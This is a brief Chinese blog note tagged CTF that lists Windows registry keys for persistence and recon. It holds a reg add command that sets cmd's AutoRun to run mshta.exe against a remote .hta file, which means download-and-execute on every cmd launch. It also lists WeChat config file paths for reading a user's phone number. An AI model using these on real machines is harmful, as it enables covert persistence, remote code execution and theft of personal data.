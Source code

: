 ```yaml
---
title: 注册表项 
date: 2023-08-29 14:19:49
categories: CTF
tags: [Windows]
---
```


本文记录那些可以被用来权限维持以及信息探测的注册表项。

## 启动进程

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce` 

用于指定那些只需要在下次系统启动时运行一次的程序或命令。与此位置相关的命令或程序在执行完一次后通常会从此列表中自动删除。 

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`



## 下载并执行

```
reg add 'HKCU\Software\Microsoft\Command Processor' 
/v AutoRun /t REG_SZ /d 'mshta.exe' http:/exam/1.hta /f
```

 通过注册表设置命令行默认启动项，当目标启动cmd时，便会下载并执行远程hta文件。 

## SVCHOST

```
计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
```

## 敏感文件

 github.com/xxx/commit/xxxx.patch

http://127.0.0.1:8680/hi

C:\Windows\PFRO.log 

 C:/Users/用户名/Documents/WeChat Files/All Users/config/config.data 

 C:/Users/用户名/Documents/WeChat Files/wx_id/config/AccInfo.dat 读取手机号

```
已经失效 weixin://contacts/profile/wxid_0kdxmrcpsi2x12 
当前需要：https://u.wechat.com/xxx
```

